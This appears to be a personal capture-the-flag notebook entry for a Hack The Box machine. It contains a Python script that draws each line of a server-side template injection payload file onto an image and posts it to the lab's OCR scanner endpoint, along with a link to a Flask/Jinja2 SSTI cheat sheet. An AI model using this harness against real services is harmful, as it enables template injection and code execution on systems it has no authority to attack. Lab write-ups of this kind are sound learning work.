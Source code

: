 # name of the file to save
filename = "img01.png"
fnt = ImageFont.truetype('arial.ttf', 15)
# create new image
image = Image.new(mode = "RGB", size = (200,70), color = "red")
draw = ImageDraw.Draw(image)
draw.text((10,10), "My Text", font=fnt, fill=(255,255,0))
image.save(filename)
 
Refactored this to take ssti lines from a file /w/ssti.txt , create the ong, and send it to the flask app url..

Finally talked to someone as i was not sure where to go with the SSTI anyway, and he mentinoed to just google ssti cheat cheet
Found this awesome page, just what I was looking for:

https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

Kept working on my script as I will need this first anyway to try a lot of things ( I assume!!)

:: OCR Uploader Script - imguploader.py

Got my script working, it is making a big 1200 x 90 image that is red, with a yellow small font on it so plenty of room for long strings it looks like..  Got input added as well. Draft:
`
from PIL import Image, ImageDraw, ImageFont
import os
import requests

# name of the file to save
ext=".png"
num=0
fnt = ImageFont.truetype('VeraMono.ttf', 15)
url = "http://images.late.htb/scanner"

def send(fname):
    print("[.] sending file "+fname+" to "+url+" ..",)
    file = {'file': open(fname, 'rb')}
    r=requests.post(url, files=file)
    print(r.status_code)
    print(r.text)

with open('/w/ssti.txt') as tfile:
    for txt in tfile:
        # create new image for each ssti attempt
        image = Image.new(mode = "RGB", size = (1200,70), color = "black")
        draw = ImageDraw.Draw(image)
        draw.text((10,10), txt, font=fnt, fill=(255,255,0))
        filename = "i"+str(num)+ext
        image.save(filename)
        send(filename)
        num+=1`
